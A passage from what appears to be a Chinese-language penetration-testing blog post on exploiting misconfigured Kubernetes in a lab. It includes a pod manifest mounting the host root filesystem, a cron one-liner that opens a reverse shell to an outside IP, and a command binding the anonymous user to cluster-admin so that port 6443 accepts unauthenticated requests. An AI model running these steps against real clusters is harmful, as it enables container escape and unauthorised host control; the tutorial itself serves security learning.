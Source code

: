 ![620776abfd4ddba1ced3ab087459ded5.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKfzhNs91r34yicaxMcE27T5AKdjIu8AEd14RyQkMU5kcs0iaPsmgPUUOhQ/640?wx_fmt=png&from=appmsg "")  
  
  
不知道什么原因，如果有大佬知道，虚心请教！这里也有可能是香港服务器不稳定的原因造成的，因为在测试的时候发现有时候服务器的ssh也连不上，也会提示连接重置  
  
通过创建dashboard创建pod并挂在宿主机的根目录  
```
apiVersion: v1kind:Podmetadata:name:myappspec:containers:-image:nginx    name:container    volumeMounts:    -mountPath:/mnt      name:test-volumevolumes:-name:test-volume    hostPath:      path: /
```  
  
这里将宿主机的目录挂在到了/mnt目录下  
  
![f4405cf71bba809e0f45a30209d313e7.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKficDbia0QZuVUe9HYXLKvUDxqcz7bjqq6U7upLjetRLKbcibtibnccUacQg/640?wx_fmt=png&from=appmsg "")  
  
  
ps: minikube 搭建如果此时点击上传返回错误信息the server could not find the requested resource，在网上看到文章说是kubectl的版本不一致的问题，那么也确实，因为minikube启动的是1.16的k8s，但是终端的是1.23，不过不要紧回到POD那里之后可以看到已经创建了  
  
![dd02dc0649f9b6fce3ee1a3c38f73a19.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKfnVEf6gkld5VOuT5xXZKO7NrCoOTdXmY1iczicpaLQmY6f99ibtwaM7aiaA/640?wx_fmt=png&from=appmsg "")  
  
  
![0bcb884599c59bae08ffe611c06f1bc9.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKfeCZiaOicNFuCOiaPddl9l3j7LlQFX8Mr8C0SzB7kxQGNnNxxLwmV6IDAw/640?wx_fmt=png&from=appmsg "")  
  
可以通过写crontab获取shell  
```
echo -e "* * * * * /bin/bash -i >& /dev/tcp/192.168.0.139/1234 0>&1" >> /mnt/etc/crontab
```  
  
或者通过chroot来获取终端  
  
![28e9abcd198921874f803b64c33e51aa.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKf9tChmC3SzKYUkeGGNtKdrtpiaDBoFbjoUC5RW3ofEcXIEDRfCicb8t0w/640?wx_fmt=png&from=appmsg "")  
  
## 2、6443端口-system:anonymous错误配置  
  
如果不小心，将"system:anonymous"用户绑定到"cluster-admin"用户组，从而使6443 端口允许匿名用户以管理员权限向集群内部下发指令  
  
本来访问会返回403  
  
![017a7599eb81fa4c8e195ff8a3c6500c.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKfiagkjj8EIqxYoJYy4RCcPD4whfSbtFkZtzLHc0RlujqfOicEzUfolJcQ/640?wx_fmt=png&from=appmsg "")  
  
  
但是使用下面的配置之后就可以了  
```
kubectl create clusterrolebinding system:anonymous --clusterrole=cluster-admin --user=system:anonymous
```  
  
![63bbafff06f56334bf858d5127006ea2.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKfd5ibDHrT1bWyHxoQ0MDtic9NWwkjGAdOPm9bXUaZ3y6KO8s6DZVWgNBA/640?wx_fmt=png&from=appmsg "")  
  
可以通过访问API来获取pod  
```
/api/v1/namespaces/default/pods
```  
  
![image-20220508144446715](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFEQoicDkiby7afp5lmH7hyUsKfnPmXR5InjvkhuYdeXicvjM3DyEGib4tw8FmhAWstJdRJS0h8AZEJ2xNA/640?wx_fmt=png&from=appmsg "")  
  